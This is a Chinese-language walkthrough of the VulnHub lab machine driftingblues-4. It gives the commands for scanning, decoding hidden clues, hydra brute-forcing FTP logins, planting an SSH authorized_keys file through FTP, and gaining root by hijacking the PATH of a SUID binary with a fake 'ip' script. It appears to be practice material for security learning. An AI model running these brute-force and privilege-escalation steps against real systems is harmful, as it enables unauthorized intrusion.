# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate 10000 192.168.64.0/24
```

靶机的IP地址是：`192.168.64.29`

## 1.2 端口扫描
**TCP SYN扫描**
```shell
nmap -sS -sV -p- --max-rate 10000 192.168.64.29 -oA nmap-scan/syn
```


**TCP Connect()扫描**
```shell
nmap -sT -sV -p- --max-rate 10000 192.168.64.29 -oA nmap-scan/tcp
```


**UDP扫描**
```shell
nmap -sU -sV --top-ports 100 --max-rate 10000 192.168.64.29 -oA nmap-scan/udp
```


**使用nmap的内置默认脚本扫描端口**
```shell
nmap -sV -sC -O -p 21,22,80,2 192.168.64.29 -oA nmap-scan/default
```


**使用nmap内置的漏洞脚本扫描端口**
```shell
nmap -sV --script vuln -p 21,22,80,2 192.168.64.29 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 80端口信息收集
**访问`http://192.168.64.29`**

没什么信息，查看一下源码，可以得到如下信息，

不知道是啥编码，试试base64,
```
Z28gYmFjayBpbnRydWRlciEhISBkR2xuYUhRZ2MyVmpkWEpwZEhrZ1pISnBjSEJwYmlCaFUwSnZZak5DYkVsSWJIWmtVMlI1V2xOQ2FHSnBRbXhpV0VKellqTnNiRnBUUWsxTmJYZ3dWMjAxVjJGdFJYbGlTRlpoVFdwR2IxZHJUVEZOUjFaSlZWUXdQUT09
⬇️
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==
⬇️
go back intruder!!! tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=
⬇️
go back intruder!!! tight security drippin i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=
⬇️
go back intruder!!! tight security drippin i hope you're an employee /imfuckingmad.txt
```

**访问`http://192.168.64.29/imfuckingmad.txt`**
访问得到到的是Brainfuck的代码，保存到*brainfuck.txt*文件，下面进行解码，
```python
from brainfuckery import Brainfuckery
with open('brainfuck.txt', 'r', encoding='utf-8') as f:
    code = f.read()
result = Brainfuckery().interpret(code)
print(result)
```
输出如下：
```
man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
#
## (中间全是这个)
#

/iTiS3Cr3TbiTCh.png
```

**访问`http://192.168.64.29/iTiS3Cr3TbiTCh.png`**
一个二维码，安装zbar-tools工具，解读一下，
```shell
wget http://192.168.64.29/iTiS3Cr3TbiTCh.png
zbarimg iTiS3Cr3TbiTCh.png
```
又是另一个网站的一张图片，`https://i.imgur.com/a4JjS76.png`

上面提供了一些似乎是人名的单词。

**扫描网站目录/文件**
```shell
gobuster dir --url http://192.168.64.29 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak,html -db
```

没发现什么有用信息。

## 1.4 22端口信息收集
```shell
nmap -sV -p 22 --script ssh-auth-methods.nse,ssh-hostkey.nse 192.168.64.29
```

ssh只允许密钥登陆。

## 1.5 21端口信息收集
```shell
nmap -sV -p 21 --script ftp-anon.nse,ftp-proftpd-backdoor.nse,ftp-syst.nse 192.168.64.29
```

没什么漏洞。

**使用上面得到的类似人名的单词来暴力破解ftp**
```shell
hydra -l luther -P /usr/share/wordlists/rockyou.txt ftp://192.168.64.29 -t 32 -V -f
hydra -l gary -P /usr/share/wordlists/rockyou.txt ftp://192.168.64.29 -t 32 -V -f
hydra -l hubert -P /usr/share/wordlists/rockyou.txt ftp://192.168.64.29 -t 32 -V -f
hydra -l clark -P /usr/share/wordlists/rockyou.txt ftp://192.168.64.29 -t 32 -V -f
```
可以从上面破解出，
- login: `luther`   password: `mypics`
- login: `hubert`   password: `john316`

用户gary和clark没有跑完整个字典，每个大约跑了12万个。

> rockyou.txt字典是根据常用性，从上到下排列的。Hydra会从上到下依次执行。其实也用不着跑完（我感觉我最多跑1一个小时），如果完全是依赖爆破的话，那么这台靶机也没什么意思。🌚

利用上面的2个用户登陆ftp, 一个hubert文件（里面是空的），一个sync_log文件，好像是什么同步的日志文件（而且所有者是root），其他的什么也没有。

---

# 2.拿到系统立足点
**整理一下当前的信息：**
```
80端口拿到类似用户名的单词，而且目前没有其他的突破口
⬇️
爆破出2个ftp用户及密码
⬇️
发现ftp里面有一个跟用户名一样的文件夹（所属主与所属组都是hubert），一个root所有的sync_log像是同步日志文件
➕
ssh必须使用密钥登陆
```
综合上面的信息，展开想象力的翅膀，有没有一种可能：🧐
*ftp下面的hubert目录就是系统里面hubert用户的家目录？同步的内容就是将ftp下面的hubert目录内容与系统里面/home/hubert目录内容同步？*

尝试一下：
1. kali生成密钥对：`id_ed25519`  `id_25519.pub`
2. 将`id_25519.pub`内容复制进新建的`authorized_keys`文件里面
3. 使用hubert用户登陆ftp，在里面的hubert文件夹里面创建 *.ssh* 文件夹，然后将`authorized_keys`文件上传进去。别着急，先等几分钟。
4. 登陆hubert用户，`ssh -p 22 hubert@192.168.64.29`


登陆成功。

---

# 3.系统提权
## 3.1 `sudo -l`


## 3.2 `find / -perm -4000 -type f 2>/dev/null`


有一个比较奇怪的命令/usr/bin/getinfo
```shell
cat /usr/bin/getinfo
```
可以发现里面有类似ip这样的没有使用绝对路径的命令，可以考虑使用路径劫持。

```shell
cd /home/hubert
touch ip
echo '#!/bin/bash' > ip
echo '/bin/bash -p' >> ip
chmod 777 ip
PATH=/home/hubert:$PATH
/usr/bin/getinfo
```




---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机driftingblues-4: 
- `https://www.vulnhub.com/entry/driftingblues-4,661/`
- IP: `192.168.64.29`

---

> 水平有限，有不足、错误之处欢迎指出。🧐